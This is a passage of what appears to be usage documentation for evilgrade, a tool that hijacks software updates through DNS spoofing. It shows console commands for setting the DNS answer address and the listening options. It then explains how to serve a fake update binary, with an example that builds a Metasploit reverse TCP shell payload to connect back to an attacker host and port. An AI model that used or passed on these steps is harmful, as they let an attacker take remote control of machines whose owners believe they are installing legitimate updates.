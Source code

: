 ``` console
evilgrade>set DNSAnswerIp 192.168.1.4 #Ip where evilgrade's DNS Server is listening
set DNSAnswerIp, 192.168.1.4

evilgrade>show options

Display options:
===============

.-------------------------------------------------------------------------------------.
| Name        | Default     | Description                                             |
+-------------+-------------+---------------------------------------------------------+
| DNSEnable   |           1 | Enable DNS Server ( handle virtual request on modules ) |
| DNSAnswerIp | 192.168.1.4 | Resolve VHost to ip  )                                  |
| DNSPort     |          53 | Listen Name Server port                                 |
| debug       |           1 | Debug mode                                              |
| port        |          80 | Webserver listening port                                |
| sslport     |         443 | Webserver SSL listening port                            |
'-------------+-------------+---------------------------------------------------------'


###############################

exit      - exits the program

#######################################

help      - prints this screen, or help on 'command'

#######################################

```

## .:: [ADVANCED] ::.

- Modules Options:
Each module has special options, but the "agent" field is always present.
The agent is our fake update binary, we have to set the path to where it's located or implement a dynamic fake update binary generation.

[Dynamic fake update binary] allows the execution of an external command to generate our binary, for example using msfpayload of metasploit framework.
With this feature we can generate any payload of metasploit or use an external interface to create the binary.

# Example 1:
```
evilgrade(sunjava)>set agent '["/metasploit/msfpayload windows/shell_reverse_tcp LHOST=192.168.233.2 LPORT=4141 X > <%OUT%>/tmp/a.exe<%OUT%>"]'
```
